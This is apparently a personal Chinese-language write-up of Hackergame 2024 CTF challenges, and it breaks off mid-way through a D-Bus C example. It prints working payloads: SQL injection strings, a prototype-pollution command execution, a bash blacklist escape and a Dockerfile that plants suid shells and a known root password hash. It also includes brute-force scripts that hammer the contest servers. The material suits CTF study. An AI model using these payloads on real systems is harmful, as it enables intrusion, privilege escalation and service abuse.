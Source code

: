 # Hackergame 2024 个人题解
Lysithea 48th 5250 

![](https://img.shields.io/badge/你们怎么这么能卷啊-c9d8df) ![](https://img.shields.io/badge/没有openAI_o1_preview用感觉像个原始人-d8b7b0) ![](https://img.shields.io/badge/算力不足恐惧症-c9d8df) ![](https://img.shields.io/badge/Z3也沙疯了-94a28f) ![](https://img.shields.io/badge/好几个就差一步大腿拍烂了-c9d8df) ![](https://img.shields.io/badge/注意力涣散-94a28f) ![](https://img.shields.io/badge/xzrj3攻击服务器了ごめんね-d8b7b0) ![](https://img.shields.io/badge/思维要活跃，要跳脱，不要硬刚-c9d8df) ![](https://img.shields.io/badge/准备赛后不看题解把🥒🐱爆了-d8b7b0)

## ![](https://img.shields.io/badge/web-0c4d72) 签到 

`http://202.38.93.141:12024/?pass=true`

## ![](https://img.shields.io/badge/web-0c4d72) 喜欢做签到的 CTFer 你们好呀

先找到他们招新的官网：https://www.nebuu.la/ （意外找了挺久，从比赛主页-承办单位进）

打开是个伪终端，功能实现还挺全的，虽然知道都是写好的JS，骗骗自己而已

`env`里有一个，然后`ls -al`可以看到个`.flag`，`cat .flag`是另一个。

还有个解法是去逆向JS，有几个很长的base64解一解就出来了。

## ![](https://img.shields.io/badge/general-af2447) 猫咪问答（Hackergame 十周年纪念版）

Hackergame的问答题目有一点好（或者不好），就是它提交答案是不限提交间隔的。偏偏它还出一大堆纯数字的题，这不是明摆着教人爆破嘛。

总之先拍个爆破脚本在这里：

```py
import requests
from bs4 import BeautifulSoup

sess = requests.session()
sess.cookies.set('session', os.environ.get('TOKEN',''), domain='202.38.93.141')

HOST = 'http://202.38.93.141:13030/'

ans = {
    'q1': '3A204',
    'q2': '2682',
    'q3': '程序员的自我修养',
    'q4': '336',
    'q5': '',
    'q6': '',
}

TARGET = 'q6'

resp = sess.post(HOST, data = ans)

bench_score = int(BeautifulSoup(resp.text, 'lxml').select_one('.alert').text.split('。')[0].split('为 ')[1])

for i in range(0, 6000):
    ans[TARGET] = str(i)
    resp = sess.post(HOST, data = ans)
    score = int(BeautifulSoup(resp.text, 'lxml').select_one('.alert').text.split('。')[0].split('为 ')[1])
    if score > bench_score:
        print('correct', i)
        break
    else:
        print('wrong', i)

```

#### Q1: 在 Hackergame 2015 比赛开始前一天晚上开展的赛前讲座是在哪个教室举行的？

首先去找历届Hackergame新闻，能找到他们[中科大Linux用户协会](https://lug.ustc.edu.cn/wiki/lug/events/hackergame/)的历年活动记录，不过很可惜Hackergame赛前讲座没有到第一届的。不过上面有个第三届的【链接已失效】，于是就去web of archive上找了一下，结果找到了2017年[失效之前的网页内容](https://web.archive.org/web/20170514082933/http://sec.ustc.edu.cn/doku.php/contest)。3A204

#### Q2: 众所周知，Hackergame 共约 25 道题目。近五年（不含今年）举办的 Hackergame 中，题目数量最接近这个数字的那一届比赛里有多少人注册参加？

虽然我知道Github全找一遍就行，但是太累了，MD跟他爆了！

#### Q3: Hackergame 2018 让哪个热门检索词成为了科大图书馆当月热搜第一？
能让检索词成为第一的只能是猫咪问答了，所以去看了一下[当年和图书馆有关的题](https://github.com/ustclug/hackergame2018-writeups/blob/master/official/ustcquiz/README.md)

> 在中国科大图书馆中，有一本书叫做《程序员的自我修养:链接、装载与库》，请问它的索书号是？
>
> 打开中国科大图书馆主页，直接搜索“**程序员的自我修养**”即可。

#### Q4: 在今年的 USENIX Security 学术会议上中国科学技术大学发表了一篇关于电子邮件伪造攻击的论文，在论文中作者提出了 6 种攻击方法，并在多少个电子邮件服务提供商及客户端的组合上进行了实验？

首先要找到是哪篇论文《[FakeBehalf: Imperceptible Email Spoofing Attacks against the Delegation Mechanism in Email Systems](https://www.usenix.org/conference/usenixsecurity24/presentation/ma-jinrui)》。然后稍微读一下文章即可（或许也有种办法是搜一下数字）。目标在第6节的开头，`All 20 clients are configured as MUAs for all 16 providers
 via IMAP, resulting in 336 combinations (including 16 web
 interfaces of target providers). `

#### Q5: 10 月 18 日 Greg Kroah-Hartman 向 Linux 邮件列表提交的一个 patch 把大量开发者从 MAINTAINERS 文件中移除。这个 patch 被合并进 Linux mainline 的 commit id 是多少？
这个事是个大新闻，所以<s>跑得快</s>报道的媒体肯定很多，随便[搜了一个](https://www.phoronix.com/news/Russian-Linux-Maintainers-Drop)，里面就有commit的截图。

#### Q6: 大语言模型会把输入分解为一个一个的 token 后继续计算，请问这个网页的 HTML 源代码会被 Meta 的 Llama 3 70B 模型的 tokenizer 分解为多少个 token？

似乎是可以去Huggingface上找那个tokenizer.json，但是下载好像要申请权限。不过无所谓，既然是纯数字，那跟它爆了！


## ![](https://img.shields.io/badge/general-af2447) 打不开的盒

给了个stl模型文件，用blender导入之后，以网格模式查看，发现盒子中间有些节点很明显是flag的形状。于是只要把盒子外边的顶点在编辑模式下全删了就行。当然即使全删了，还需要人眼OCR。

## ![](https://img.shields.io/badge/general-af2447) 每日论文太多了！

下载论文之后，用Acrobat搜索flag，发现停在了一个神奇的图片后面（甚至看不见光标），用编辑模式把图片挪开就拿到flag了。

我更加震惊的是，期刊/会议发表论文居然可以这么藏私货的吗。

## ![](https://img.shields.io/badge/web-0c4d72) 比大小王

> 看得出来是想neta小猿口算

总之是一个比大小的题，要10秒内做100道。一开始服务端会把所有题目以json形式送过来，然后我们就可以在devtools控制台里跑个js脚本生成正确答案，就可以秒出了。另外这个题的题目发过来后比赛开始前有个倒计时，抢跑会被发现。

```js
state.inputs = state.values.map((el) => {
    let res = '<';
    if( el[0] > el[1] ){
        res = '>'
    }
    return res
})

submit(state.inputs)
// flag{I-AM-TH3-hACker-KiN9-0f-CoMP@RIN9-numbeRs-Z0Z4}
```

## ![](https://img.shields.io/badge/general-af2447) 旅行照片

我知道这个OSINT挺放水的了，但是我就是弱OSINT，怎么办嘛

#### Q1: 科里科气
<img src="[osint/klkq.jpg](https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/klkq.jpg)" width=50%/>

> 问题 1: 照片拍摄的位置距离中科大的哪个校门更近？（格式：X校区Y门，均为一个汉字）
> 问题 2: 话说 Leo 酱上次出现在桁架上是……科大今年的 ACG 音乐会？活动日期我没记错的话是？（格式：YYYYMMDD）

这个算是把标志性建筑摆脸上了，百度地图随便搜一下就出。这个地方在中校区和东校区之间，一共就几个门，遍历一下就出（而且门的名字只能有一个字，也排除了一些）

ACG音乐会的话，首先搜B站视频是不准的，因为基本不可能存在当天就放出演出视频的情况（总得剪辑的）。最好的方法是搜社团公号或者[微博]()，因为这种二次元活动一定是会有通知宣传的。

![](osint/acg_concert.jpg)

#### Q2: 两张景点照片

<img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image01.jpg" width=50%/><img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image04.jpg" width=50%/> 

> 问题 3: 这个公园的名称是什么？（不需要填写公园所在市区等信息）
> 问题 4: 这个景观所在的景点的名字是？（三个汉字）

右边是个标志性景点，google lens可以出，是宜昌**坛子岭**观

左边从垃圾桶的小字上隐隐约约能看到是六安，于是在六安市的公园，再加上有跑步道，树还挺多。多试了几次就能知道是**中央森林公园**。

#### Q3: 铁路俯视图

<img src="https://raw.githubusercontent.com/USTC-Hackergame/hackergame2024-writeups/refs/heads/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%204.0/photos/image06.jpg" width=80%/>

> 糟了，三番五次调查学长被他发现了？不过，这个照片确实有趣，似乎有辆很标志性的……四编组动车？
>
> 问题 5: 距离拍摄地最近的医院是？（无需包含院区、地名信息，格式：XXX医院）
> 问题 6: 左下角的动车组型号是？

不会捏。四编组动车搜了一下新闻说是广州广清那里有引进，但是那么长的铁路也没找到和图片里特征相似的。

## ![](https://img.shields.io/badge/general-af2447) 不宽的宽字符

题目给的程序把输入路径从`wchar_t*`直接强转成`char*`了，不用说这是一种极其抽象的行为，因为宽字节数组包含单个0字节的时候不会被截断，但是`char*`会。所以即使程序在我们的输入后面添加了许多垃圾内容，只需要一个null byte就全部无效了。

可以用这个：
```py
s = b'Z:\\theflag\x00\xbb'

if len(s) % 2 == 1:
    s = s + b'\x00'

print(s.decode('utf-16'))
# 㩚瑜敨汦条묀
# flag{wider_char_isnt_so_great_bc8e1de5e2}
```

## ![](https://img.shields.io/badge/general-af2447) PowerfulShell

黑名单比较严格的一个bash逃逸。从结果来看能用的字符只有：`$+-123456789:=[]_``{|}~`。为了做出这个题，需要至少知道这么几件事：

- 一部分bash特殊变量：`$-=hB`包含当前终端的输出模式，`$_=input`是上一个引用的变量名
- 在没有后缀的情况下，`~`会展开为家目录。但我们可以用变量赋值`__=~`取消这个限制。这个很重要，因为我们只能通过这个方式拿到一个`s`
- `${-:1:1}`可以取子字符串。虽然0在黑名单里，但要取第一个字符可以`${-::1}`

这三点少一点应该就完全做不出来。属于是做出来脑子想穿，做不出来大腿拍烂。

```sh
__=~
${__:7:1}${-::1}
```

## ![](https://img.shields.io/badge/web-0c4d72) Node.js is Web Scale

直球考prototype pollution的。总之打开网页后上下分别填`__proto__.eee`和`cat /flag`添加后，直接访问`/execute?cmd=eee`就行

## ![](https://img.shields.io/badge/web-0c4d72)  PaoluGPT

给源码的SQLite注入，比较送。不过值得注意的是这个题没有藏表，所有flag全在文章内容里，所以得写代码遍历。虽然flag2是在隐藏文章里需要注入才能找到，但是flag1不需要注入的明显更难找，大隐隐于市了。

总之做个备忘，SQLite主表是`sqlite_master`，直接存的是表名和sql语句，所以不用爆列名了。

```sql
/view?conversation_id=1' union select name,sql from sqlite_master limit 1 offset 0--
' union select title,contents from messages limit 1 offset %s--
```

## ![](https://img.shields.io/badge/math-90b452) 强大的正则表达式

正则编程题，只能用数字小括号星号和数线，最大字符限制1000000。时间有限就只做了第一问。求16的模。因为`16*625=10000`，所以只要把后四位的情况遍历一下就行了。注意小于10000前面没有0，要单独处理

## ![](https://img.shields.io/badge/math-90b452) 惜字如金 3.0

> 沟槽的xzrj还在追我

第一问没什么好说，就是确保你理解了这套变换规则的。

第二问的CRC函数大小写信息被抹掉了。这个变化会影响结果，所以可以本地爆破出来。

首先说明一下，提交到网站上的文件如果包括错误的行，会返回你的行对应的hash（而不会暴露服务端的）。如果hash一致但内容错了，爆出的是你的文件里最后一个错误的字符。如果hash恰好和其他行一致（传错行了），那么也会指明。

```py
def crc(input: bytes) -> int:                                                   
    poly, poly_degree = 'B', 48 # 这里少了48个B或b
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'B' 
    flip = sum(['b', 'B'].index(poly[i + 1]) << i for i in range(poly_degree))  
    digest = (1 << poly_degree) - 1                                             
    for b in input:                                                             
        digest = digest ^ b                                                     
        for _ in range(8):                                                      
            digest = (digest >> 1) ^ (flip if digest & 1 == 1 else 0)           
    return digest ^ (1 << poly_degree) - 1                                      
                                                                                
                                                                                
def hash(input: bytes) -> bytes:                                                
    digest = crc(input)                                                         
    u2, u1, u0 = 0xdbeEaed4cF43, 0xFDFECeBdeeD9, 0xB7E85A4E5Dcd                 
    assert (u2, u1, u0) == (241818181881667, 279270832074457, 202208575380941)  
    digest = (digest * (digest * u2 + u1) + u0) % (1 << 48)                     
    return digest.to_bytes(48 // 8, 'little')                                   
```

首先观察一下crc算法。第一步是用那个大小写未知的poly变量构造一个48位的整数`flip`，一一对应。之后用`flip`处理输入。从一个全1数开始，每次读入一个字节和最低字节异或，然后右移一位，根据最低位的情况是否和flip异或，重复8次，开始处理下一个字符。这个选择异或的过程是可逆的（假设flip最高位为1，可以通过最高位的情况预测是走哪个分支）。但对flag2没有帮助（对flag3可能有）。但是通过构造一个特定的输出可以让这个函数稳定返回`~flip`，即`FFFFFF` + 全0 + `80`。

然后就是第二个hash函数，是`2**48`模意义下做了个二次函数运算。因为模是合数所以这个乘法是不可逆的，不太确定非质数模意义下二次函数求根公式还有没有意义。总之我是taichi写了个gpu kernel爆算的。这竟然是我第一次写taichi。在和`range`不支持64位整数这件事斗争很久后，写出了这段东西：

```py
import taichi as ti

# export LD_LIBRARY_PATH="/usr/lib/wsl/lib:${LD_LIBRARY_PATH}"
ti.init(arch=ti.gpu, default_ip=ti.i64)

target_f = 'answer_c.py'
u2, u1, u0 = (241818181881667, 279270832074457, 202208575380941) if target_f == 'answer_b.py' else (246290604621823, 281474976710655, 281474976710655)
target_hash = 229418662089585

if target_f == 'answer_c.py':
    poly, poly_degree = 'CcccCCcCcccCCCCcCCccCCccccCccCcCCCcCCCCCCCccCCCCC', 48 
    assert len(poly) == poly_degree + 1 and poly[0] == poly[poly_degree] == 'C' 
    flip = sum(['c', 'C'].index(poly[i + 1]) << i for i in range(poly_degree))

@ti.kernel
def calc_hash(hash: ti.u64) -> ti.u64:
    ''
    u1_ = ti.u64(u1)
    u2_ = ti.u64(u2)

    result = ti.u64(0)
    for i_high in range(0x1000, 0x1000000):
        for i_low in range(0x1000000):
            digest = ti.u64(i_high) * 0x1000000 + ti.u64(i_low)
            hash_res = (digest * (digest * u2_ + u1_)) & 0xffffffffffff
            if hash == hash_res:
                result = digest
                print(f"result: {digest}")
            
            if (i_low % ti.u64(0x100000) == 0) and (i_high % ti.u64(0x100000) == 0):
                print(f"status: {i_high // 0x100000} {i_low // 0x100000}")
            
    return result

flip_inv = calc_hash((target_hash - u0 + 2**48) % (2 ** 48))
print(f"result: {flip_inv}")
```

只要上线请求一组那个对应`~flip`的hash，然后拿到这里爆算就行了。在我的4060上把结果跑出来大概十几分钟。

flag3前半部分用相同办法可以爆出poly，但是hash里的u2,u1,u0里的大小写未知，并且这个是不影响运行结果的。因为拿不到任何服务端hash的信息，所以只能在线爆破了。hash的取值空间是`2**48`，但是这一行所有输入的取值空间是`2**32`。每次提交能检查的行数等于文件原行数97，所以我们最多爆`2**32 // 97 + 1 == 44278014`次。似乎刚好在爆破允许的边缘。

我用`httpx`写了个超快的异步并发算法。我在两个不同设备上跑两份这个代码可以发现请求速度明显变慢了，说明已经到达服务端的饱和吞吐量（或者至少是我们这个校园网带宽的最大吞吐量），不用做多线程优化了。目前这个算法是一轮触发100个请求，期间请求失败就立刻重新请求，所有请求全部成功后进入下一轮。我知道这个会导致一些轮空的机制，但我发现把这个100改大之后反而跑的更慢了，我觉得我这边快没用，带宽和服务端那边得能顶得住才行。那么这样大概是44万轮，按第一天的速度1秒一轮的话，大概总共用时5.09天……似乎有戏？（然后第二天服务器就降速了，用时翻了2-3倍，呃呃）

> 虽然我知道一般CTF比赛都是禁止在线爆破的。我还特意看了眼比赛规则，没提这个事

```py
template = "    u2, u1, u0 = 0xDFFFFFFFFFFF, 0xFFFFFFFFFFFF, 0xFFFFFFFFFFFF                 "
ind_0 = template.index("xDF") + 3
ind_1 = template.index("xF") + 2
ind_2 = template.rindex("xF") + 2
ind_mask = list(chain(range(ind_0, ind_0 + 10), range(ind_1, ind_1 + 11), range(ind_2, ind_2 + 11)))

def num_to_target_line(num):
    num_bin = f"{num & 0xffffffff:032b}".replace('0','F').replace('1','f')
    req_str = list(template)
    for i, bit in enumerate(num_bin):
        req_str[ind_mask[i]] = bit
    return ''.join(req_str)

client = httpx.AsyncClient()
client.cookies.set('session', TOKEN, domain = '202.38.93.141')

async def req_hash_async(num_iter):
    # construct body
    body = "\n".join([num_to_target_line(i) for i in num_iter]) + "\n"

    HOST = f'http://202.38.93.141:19975/{target_f}'
    while True:
        try:
            resp = await client.post(HOST, data=body)
            resp_json = resp.json()
            break
        except httpx.ConnectTimeout:
            continue
        except json.JSONDecodeError:
            if (resp.status_code == 502) or (not resp.text):
                continue

            print(f"json: {resp.text}")
            continue
        except (KeyboardInterrupt, SystemError):
            raise
        except Exception as e:
            if str(e) and str(e) != 'All connection attempts failed':
                print(f"unknown exception: {str(e).encode()}")
            continue
    
    if resp.status_code in (400, 200):
        for k,v in resp_json['wrong_hints'].items():
            if 'Unmatched hash' in v:
                continue
            else:
                print(f"possible result: {body.splitlines(keepends=False)[int(k) - 1], v}")

    else:
        # unlikely
        print(f"unlikely: {num_iter, resp.text, body}")

N_LINE = 97
EVENT_BATCH_SZ = 100
import sys
START_BATCH = int(sys.argv[1]) if len(sys.argv)>1 else 0
INTMAX_RES = 2 ** 32 // 97

def task_iter(loop, max_task = 1000, start_task = 0):
    for i in range(start_task, max_task):
        yield loop.create_task(req_hash_async(range(i*N_LINE, (i+1)*N_LINE)))

loop = asyncio.get_event_loop()
for start_task in tqdm(range(START_BATCH, INTMAX_RES + EVENT_BATCH_SZ, EVENT_BATCH_SZ)):
    t_st = time.time()
    loop.run_until_complete(asyncio.wait(list(task_iter(loop, start_task + EVENT_BATCH_SZ, start_task))))
    t_ed = time.time()
    # print(f"Batch {start_task}: duration: {t_ed - t_st} s")

loop.close()
```

另外我意识到我们可以找到一组输入让它的hash返回`answer_c.txt`，但是没想到怎么用，因为长度检查加上爆hash的难度，基本不可能用这种方法leak flag。也许是我想错了吧。期待出题人或者其他人给出不基于在线爆破/降低在线爆破压力的解法（比如说本地逆那个crc发现相当一部分请求给出的hash是相同的）。不然的话怎么说呢，校内骑在服务器上网速更快，专业团队有更多云设备的话也能多端高并发，就我这什么也没有，那不是很不爽。

## ![](https://img.shields.io/badge/math-90b452) 优雅的不等式

只用加减乘除乘方构造一个sympy函数，使得其在0-1定积分等于`pi - p/q`，其中p/q是给定的两个数。flag2需要给出`q`达到`2**200`的最近逼近。

只做了第一问，只要解决1/2和8/3两个最简单情况：
```py
naive_f_0 = f'4*((1-x**2)**(x/(x+x))-1+x)'
naive_f_1 = f'4*((1-x**2)**(x/(x+x))-1+x**2)'
```

## ![](https://img.shields.io/badge/general-af2447) 无法获得的秘密

题目是个不能复制的NoVNC连接一个不联网的debian桌面系统，有一个`/secret`大约64MB的二进制文件，我们需要把这个文件的内容分毫不差地带出来。

传说中的OCR题。作为开始的第一步，我想这个题应该需要大量机器辅助操作，所以我写了一个`selenium`和网页交互。考虑到写鼠标操作有点困难，我只写了向终端输入内容的部分，进入系统后我需要手动打开终端最大化。

```py
input("> ready to paste shell")

driver.switch_to.frame('novnc-iframe')

driver.execute_script('document.getElementById("noVNC_control_bar_handle").remove()')

driver.find_element(By.CSS_SELECTOR, 'canvas').send_keys(init_cmd + '\n')
```

然后我们需要把二进制的secret转化为可打印字符。我一开始用的是base64，但后来我意识到这会给OCR工作带来多么大的压力后，我采用了base16，也就是hex编码。这样文件大小会变为2倍，但是可识别性容易多了。

```py
init_cmd = 'echo "print(open(\'/secret\',\'rb\').read().hex(sep=\'\\n\',bytes_per_sep=38).upper())">p.py && python3 p.py >s && echo \'#!/bin/bash\'>c && echo \'head -n$1 s|tail -n30\'>>c && chmod +x c && head -n100 s'
```
这段代码生成几个脚本文件
- `p.py`: 把secret转换为base16存储到本地文件`s`中。每行最多38个字符（和base64默认一致）
- `c`: shell脚本，用head和tail，打印文件固定位置下30行。

之后利用`selenium`的截图功能，每运行一次`c`就截一张图，大概总共需要460张图把整个文件截完。

```py
for i in range(460):
    driver.find_element(By.CSS_SELECTOR, 'canvas').send_keys(f"bash c {(i + 1)*N_LINE}\n")
    time.sleep(2)
    driver.save_screenshot(f'tmp/{i:04d}.png')
    print(f"screenshot {i} saved")
```

在正式OCR之前还要做些预处理，截取文字区域，二值化。这部分我用的opencv2。

```py
def preprocess(img_path, slice_row = True):
    im = cv2.imread(img_path)
    im = cv2.cvtColor(im, cv2.COLOR_RGB2GRAY)

    im = im[164:829, 100:900]
    # print(im.shape, im.dtype)

    thre, im_thre = cv2.threshold(im, 127, 255, cv2.THRESH_BINARY_INV)
    if slice_row:
        # print(im_thre.shape, im_thre.dtype)
        row_hist = np.mean(im_thre, axis=1)
        # col_hist = np.mean(im_thre, axis=0)
        # print(row_hist)

        row_slices = []
        # record max hist of this row
        row_hist_max = []

        record_st = None

        for i_row in range(row_hist.shape[0]):
            is_gap = row_hist[i_row] < .1
            if (record_st is not None) and is_gap:
                # stop recording
                row_slices += [im_thre[record_st:i_row, :]]
                row_slices[-1] = cv2.resize(row_slices[-1], (row_slices[-1].shape[1] * 3, row_slices[-1].shape[0] * 3), cv2.INTER_LINEAR)
                row_hist_max += [np.mean(row_slices[-1][:])]
                record_st = None

            elif (record_st is None) and (not is_gap):
                # start recording
                record_st = i_row

        # there should be one line that is very small, which is the shell prompt
        I_prompt = np.argmin(np.array(row_hist_max))

        # print(col_hist)

        # to grey
        return row_slices[I_prompt:]
    
    else:
        return im_thre
```

之后进入OCR环节，试了easyocr，umi ocr和tesseract。我这才意识到在追求绝对精度的前提下，现有OCR技术其实还挺糟糕的。另外我在喂给OCR之前还尝试行切割，但还是效果很差。

最后我拿出来手头最nb的OCR软件：Adobe Acrobat。不得不说商业软件就是猛啊，连行切割都不用，直接出结果。

OCR结果出来后，用了`pdfminer`把文字从PDF提取出来。然后会发现文本里其实有不少错误，有些是转换为了base16以外的字符，比如S和5，l和1这种。但还有一些是Base16内部混淆，最经典的就是`B,5,8`这三个字符。其实为了识别精度应该把这三个字符替换成其他不会混淆的字符，但我实在懒得再跑一边OCR流程，于是写了个验证脚本。大概逻辑是，把本地文件的30行传上去，用`diff`做逐行匹配，找出每一页上第几行第几个字母和远程结果不同。最后得到的一个纠正json，格式大概长这样：

```py
err_map_detail = {
    (2100, 7): ('747BD11', '7478D11',),
    (2100, 11): ('68D3BD', '68D38D'),
    (2700, 5): ('086DB9', '086D89'),
    (3690, 3): ('4BD713', '48D713'),
    (4590, 17): ('3E8BBF', '3E5BBF'),
    (6270, 14): ('ECA85B', 'ECA55B'),
    (6270, 29): ('7FB8C1', '7FB5C1'),
    (7440, 23): ('83BD74', '838D74'),
    (8730, 20): ('E8E14C', 'E5E14C'),
    (8910, 6): ('DB2D7E', 'D82D7E'),
    (9780, 21): ('7DB3F', '7D83F'),
    (12090, 30): ('758C1F', '755C1F'),
    (12120, 14): ('FAF8CF', 'FAF5CF'),
    (12360, 14): ('257BD', '2578D'),
    (13410, 4): ('A78CD', 'A75CD'),

}
```

全部处理完后，最后算一个整个文件的md5，结束战斗。

> 忽然意识到最开始文本化的时候，如果能引入纠错码机制，可能省不少事。
>
> 看完题解：原来题解用的是图片编码整个文件，可以一张图直出。可以用带纠错机制的图片编码，或者把VNC的websocket暴露出来自己连接然后改设置为无损传输。

## ![](https://img.shields.io/badge/general-af2447) Docker for Everyone Plus

前年docker题升级版。现在docker只能用sudo调用了，并且限制了只能特定格式的命令，但是docker镜像可以自己打包上传。flag在一个设备文件里，只有`root`和`disk`组有读写权限。

首先这个题终端可以用`lrzsz`收文件。我用pwntools写了个上传函数，带进度条（不太准是因为字符escape的原因，上传文件大小会比真实文件大小大个百分之几）

```py
def sz_upload(conn, fpath):
    '''
    '''
    conn.sendline(b'rz')
    conn.recvuntil(b'waiting to receive.**')
    
    conn_zm = process(['sz',fpath])
    with tqdm(total = os.stat(fpath).st_size) as pbar:
        while True:
            try:
                resp = conn.recv(1024 * 16, timeout=.1)
                conn_zm.send(resp)

                resp = conn_zm.recv(1024 * 16, timeout=.01)
                conn.send(resp)
                pbar.update(len(resp))
            except EOFError:
                break
    return
```

第一问允许的命令格式`sudo -l`为：
```
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, /usr/bin/docker
        image load, !/usr/bin/docker * -u0*, !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, !/usr/bin/docker * -ur*, !/usr/bin/docker
        * -u?r*, !/usr/bin/docker * --user?r*
```

所以用前缀限制了我们只能以UID/GID=1000进入容器。我试了直接在后面加`-u  0`，无效，似乎是前面申请了低权限后面再次申请高权限就会被阻止。

以这种方式进入容器的话，suid的cat似乎用不了，但是直接su可以，记得把容器内的su给上suid权限。

总之参考了[这篇博客](https://www.cnblogs.com/kqdssheng/p/18275541#id2.5)。我容器内的密码哈希的用户名用的和前面不一样，这样似乎就不会检查容器外的密码，但获得的UID也确实是0。

```dockerfile
FROM alpine

RUN chmod 4755 /bin/sh /bin/cat /bin/su /usr/bin/passwd

RUN echo me:x:1000:1000:me:/home/me:/bin/sh >>/etc/passwd
RUN echo you:x:1001:1001:you:/home/you:/bin/sh >>/etc/passwd
# root password is password123
# generate with `openssl passwd -1 -salt r00t password123`
RUN sed -i 's/root::0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd
RUN sed -i 's/root:x:0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd

CMD [ "/bin/sh" ]
```

第二问加了`--no-new-priviledge`设置，suid相关提权都会失效，暂时不知道怎么绕。常见的bind docker.sock之类的方法也试过了，没用

```
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm --security-opt\=no-new-privileges
        -u 1000\:1000 *, /usr/bin/docker image load, !/usr/bin/docker * -u0*,
        !/usr/bin/docker * -u?0*, !/usr/bin/docker * --user?0*,
        !/usr/bin/docker * -ur*, !/usr/bin/docker * -u?r*, !/usr/bin/docker *
        --user?r*, !/usr/bin/docker * --privileged*, !/usr/bin/docker *
        --device*
```

> 赛后：第二问预期解是在容器内`mknod`一个对应设备号、被1000拥有的设备文件，然后在容器外用`/proc/[pid]/root`访问容器内命名空间根目录（不能在容器内cat，有cgroup）。但是有个神秘的非预期是`--security-opt=no-new-privileges:false`，我真的感觉我做的时候试了这种方式，但可能因为flag1我没有完全搞清楚，所以这里以为我试过了其实因为别的原因没有成功。有点可惜

## ![](https://img.shields.io/badge/general-af2447) 不太分布式的软总线
最后一天看这题三问怎么那么多人做了，干脆也做一下。分类上这题严格应该属于PPC。

DBus是一种进程间通信（IPC）机制，感觉和RPC类的有点像，可以做远程过程调用，或者单纯收发信号。通过dbus-daemon来整合事件循环。许多Linux桌面系统，比如gtk，内部的进程间通信就是用的dbus。gtk的dbus似乎有个专门的库叫gio，抽象程度比dbus稍高，更好用一点。

dbus一般会分系统总线和会话总线，系统总线只有一个，这个题的flagserver就是挂在系统总线上的。会话总线可以有很多，每个会话总线会对应一个DISPLAY环境变量，这也就是为什么用X11或者Xwayland的时候要指定这个环境变量，这样才能与对应的桌面组件进行通信。当然这个题不用想那么多，我们就单纯把这个作为一种RPC手段就行了。

> 为什么提这个，因为网上搜dbus搜到的几乎全是会话总线的代码

和总线通信需要总线地址，对象名，接口名和方法名（如果是方法调用）。这些在文件里内容比较分散。但是这个题附件的`getflag3.c`其实就是一个这种dbus请求的完美模板，只要稍加改动就能直接过flag1，非常感人。不知道这是不是这个题通过率如此高的原因。

```c
#include <gio/gio.h>
#include <glib.h>
void flag1(GDBusProxy *proxy)
{
	GVariant *result;
	GError *error = NULL;
	const gchar *str;

	g_printf("flag1...\n");
	result = g_dbus_proxy_call_sync(proxy,
					"GetFlag1",
					g_variant_new ("(s)", "Please give me flag1"),
					G_DBUS_CALL_FLAGS_NONE,
					-1,
					NULL,
					&error);
	g_assert_no_error(error);
	g_variant_get(result, "(&s)", &str);
	g_printf("The server answered: '%s'\n", str);
	g_variant_unref(result);
    // flag{every_11nuxdeskT0pU5er_uSeDBUS_bUtn0NeknOwh0w_41140ef451}
}

int main( int argc , char ** argv, char **environ)
{
    GDBusConnection * connection;
	GError *error = NULL;
	const char *version;
	GVariant *variant;
    
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if(connection == NULL) {
        return -1;
    }

    proxy = g_dbus_proxy_new_sync(connection,
				      G_DBUS_PROXY_FLAGS_NONE,
				      NULL,				/* GDBusInterfaceInfo */
